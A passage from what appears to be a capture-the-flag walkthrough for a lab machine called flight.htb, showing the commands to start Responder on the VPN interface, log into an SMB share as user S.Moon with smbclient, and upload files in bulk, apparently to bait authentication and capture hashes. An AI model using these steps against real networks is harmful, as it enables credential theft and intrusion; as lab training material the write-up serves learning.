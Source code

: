 ![Alt text](img/image-17.png)


2.Turn on your `responder`.
```bash
responder -I tun0
```

![Alt text](img/image-19.png)

3.Let's login into this SMB Share '**Shared**' via `smbclient` tool.
```bash
smbclient //flight.htb/users -U flight.htb\\S.Moon
```

Then put **all files** into here
```bash
prompt false
mput *
```
